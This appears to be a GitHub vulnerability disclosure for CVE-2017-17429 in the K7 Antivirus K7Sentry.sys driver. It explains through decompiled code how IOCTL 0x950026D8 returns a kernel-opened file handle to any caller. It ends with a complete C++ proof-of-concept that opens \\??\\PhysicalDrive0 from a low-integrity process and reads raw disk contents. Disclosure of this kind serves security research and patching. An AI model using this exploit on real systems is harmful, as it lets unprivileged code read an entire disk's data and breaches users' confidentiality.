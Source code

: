 # CVE-2017-17429

# Product / Component Affected

* **Product**: *K7 Antivirus Premium 15.1.0.53* 
* **Component**: *K7Sentry.sys 15.1.0.45*
  * SHA256: 7037F80EC73F4D6E2DFBD2AA675FF154F81AAB2FB7372680AAA1D2D41DB93771
  
# Details
The control code 0x950026D8 ultimately allows you pass a string to IoCreateFileSpecifyDeviceObjectHint (from kernel mode) and the opened handle will be passed back to the calling process, and is a handle that can be used in that user mode process. If the calling thread is part of the administrator group it will return a RW handle, otherwise it will return a read-only handle.

However, this means that a LOW integrity process, can talk to the driver, and open a handle to \\??\\PhysicalDrive0 and have complete read access to the entire contents of the hard disk which is a Confidentiality issue.

```C++
switch ( dwIoControlCode )
{
    // ...
    case 0x950026D8:
        v9 = IoControl_0x950026D8_CreateFileIfAdmin(&stIoControlBuffer);
        goto LABEL_117;
```

```C++
int __stdcall IoControl_0x950026D8_CreateFileIfAdmin(IoControlBuffer *a1)
{
    // ...
    // Locals
    // ...

    dwInLength = a1->dwInputBufferLength;
    FileHandle = 0;
    if ( dwInLength >= 0x10 && a1->dwOutputBufferLength >= 4u )
    {
        pInputBuffer = (unk15 *)a1->pInputBuffer;
        dwSomeFlag = pInputBuffer->field_0;
        v4 = &pInputBuffer->pszSomething;
        if ( !*(&pInputBuffer->pszSomething + ((dwInLength - 6) >> 1)) )
        {
            if ( !(dwSomeFlag & 0x20000002) )
                // Take this jmp...
                goto LABEL_30;

            // ... removed for simplicity ...

            if ( bIsAdmin )
            {
            LABEL_30:
                // ... land here...
                RtlInitUnicodeString(&DestinationString, v4);
                oa.Length = 24;
                oa.RootDirectory = 0;
                oa.Attributes = 64;
                oa.ObjectName = &DestinationString; // This has come directly from the user
                oa.SecurityDescriptor = 0;
                oa.SecurityQualityOfService = 0;

                // ...
                // Setup the desired access based off various flags, we can only get FILE_GENERIC_READ
                // ...

                IoStatusBlock = 0;
                v13 = 0;
                CreateOptions = 2912;
                if ( dwSomeFlag & 0x20000000 )
                    CreateOptions = 7008;
                
                // VULN: This will open the file specified by the string in my input buffer and 
                // return the handle to the output buffer.
                if ( !IoCreateFileSpecifyDeviceObjectHint(
                        &FileHandle,
                        DesiredAccess,
                        &oa,
                        &IoStatusBlock,
                        0,
                        FILE_ATTRIBUTE_NORMAL,
                        ShareAccess,
                        1,
                        CreateOptions,
                        0,
                        0,
                        0,
                        0,
                        2048,
                        0)
                    && FileHandle
                    && FileHandle != -1 )
                {
                    // Handle passed back via output buffer.
                    *(_DWORD *)a1->pOutputBuffer = FileHandle;
                    *a1->pdwIoStatusInformation = 4;
                }
            }
        }
    }
    return 0;
}
```

# PoC Code

The following PoC code demonstrates this and uses this control code to get a handle to *\\??\\PhysicalDrive0* and then proceeds to read data from it to demonstrate it. This can be run in a LOW integrity process.

```C++
VOID RawDiskAccessFromLow()
{
	HANDLE 	hDevice = CreateFileW(L"\\\\.\\k7sentry", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL);
	BYTE arrInput[0x1000] = { 0 };
	BYTE arrOutput[0x1000] = { 0 };
	DWORD dwBytesReturned = 0;

	PDWORD pdwStart = (PDWORD)arrInput;
	*pdwStart = 1 | 0x10 | 0x20;
	wcscpy_s((WCHAR*)(arrInput + 4), 100, L"\\??\\PhysicalDrive0");

	if (!DeviceIoControl(hDevice, 0x950026D8, arrInput, sizeof(arrInput), arrOutput, sizeof(arrOutput), &dwBytesReturned, NULL))
	{
		printf("Error: DeviceIoControl 0x%08x\r\n", GetLastError());
		return;
	}

	DWORD dwTest = *((PDWORD)arrOutput);
	printf("Value: 0x%08x\r\n", dwTest);

	HANDLE hDrive = (HANDLE)dwTest;

	// Move it 256MB into the drive - probably a partition here
	if (SetFilePointer(hDrive, 0x10000000, NULL, FILE_BEGIN) == INVALID_SET_FILE_POINTER)
	{
		printf("Error: Couldn't set file pointer\r\n");
		return;
	}

	BYTE cluster[0x1000] = { 0 };

	for (DWORD i = 0; i < 0x10000; ++i)
	{
		if (!ReadFile(hDrive, cluster, sizeof(cluster), &dwBytesReturned, NULL) ||
			dwBytesReturned != sizeof(cluster))
		{
			printf("Error: ReadFile failed: 0x%08x\r\n", GetLastError());
			return;
		}
	}

	printf("\r\n");
}

```
